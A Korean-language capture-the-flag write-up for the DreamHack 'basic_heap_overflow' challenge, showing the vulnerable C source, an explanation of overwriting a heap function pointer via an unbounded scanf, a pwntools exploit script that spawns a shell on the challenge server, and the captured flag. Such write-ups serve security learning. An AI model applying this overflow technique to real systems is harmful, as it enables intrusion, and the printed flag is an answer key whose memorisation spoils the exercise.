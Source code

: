 # [DreamHack] basic_heap_overflow

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 서버에서 작동하고 있는 서비스(basic_heap_overflow)의 바이너리와 소스 코드가 주어집니다.
> 프로그램의 취약점을 찾고 익스플로잇해 셸을 획득한 후, “flag” 파일을 읽으세요.
> “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [basic_heap_overflow.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8533363/basic_heap_overflow.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160965566-33b85490-9e36-4202-a3fc-1a95d5a980f2.png)

## Analysis

```c
struct over {
    void (*table)();
};

void get_shell() {
    system("/bin/sh");
}

void table_func() {
    printf("overwrite_me!");
}

int main() {
    char *ptr = malloc(0x20);

    struct over *over = malloc(0x20);

    initialize();

    over->table = table_func;

    scanf("%s", ptr);

    if( !over->table ){
        return 0;
    }

    over->table();
    return 0;
}
```

`ptr`과 `over`를 차례로 `malloc()`으로 할당하여, 두 메모리 공간은 인접해 있게 된다. `scanf("%s", ptr)`에서 BOF가 발생하여 `over`의 메모리 전체를 덮어쓸 수 있다. `over` 구조체에는 함수 포인터 `table`이 있고 이 포인터에는 `table_func()`의 주소가 들어가 있는데, 이 포인터를 `get_shell()`의 주소로 덮으면 `over->table()`이 호출될 때 `get_shell()`이 호출되어 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/basic_heap_overflow')
else:
    r = remote('host1.dreamhack.games', 18583)

get_shell = 0x804867b  # get_shell()

r.sendline(b'a' * 0x28 + p32(get_shell))

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 18583: Done
[*] Switching to interactive mode
$ cat flag
DH{f1c2027b0b36ee204723079c7ae6c042}
```